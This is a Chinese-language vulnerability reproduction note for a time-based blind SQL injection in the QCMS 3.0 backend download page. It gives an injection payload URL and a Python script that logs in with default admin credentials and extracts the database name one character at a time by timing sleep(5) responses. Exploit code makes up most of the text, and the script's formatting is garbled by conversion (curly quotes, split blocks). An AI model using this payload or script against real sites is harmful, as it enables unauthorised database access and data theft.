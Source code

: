 ```yaml
---
title: QCMS 3.0 sql注入漏洞
id: zhfly3098
---
```


# QCMS 3.0 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

在后台下载管理处

![image](../img/07a12d4529b003556f59a16b8a31beef.png)

构造payload

```
http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23 
```

这里直接附上简单脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory
import requests

def getCookie():

url = ‘[http://127.0.0.1/admin.php](http://127.0.0.1/admin.php)’

data = {

‘username’:‘admin’,

‘password’:‘admin’

}

```
session = requests.session()
res = session.post(url, data)

return requests.utils.dict_from_cookiejar(res.cookies) 
```

def getDatabase(url, arr, cookies):

```
str = ''
requests.session()

for i in range(1, 11):
    for j in arr:
        data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
        # print(data)
        res = requests.get(url=data, cookies=cookies)
        # print(res.elapsed.total_seconds())
        if(res.elapsed.total_seconds() &gt; 5):
            str += j
            print(str)
            break
print('database=' + str) 
```

if **name** == ‘**main**’:

url = ‘[http://127.0.0.1/backend/down.html](http://127.0.0.1/backend/down.html)’

arr = []

```
for i in range(48, 123):
    arr.append(chr(i))

cookies = getCookie()
print(cookies)
getDatabase(url, arr, cookies) 
``` 
```

## 参考链接

> https://xz.aliyun.com/t/7269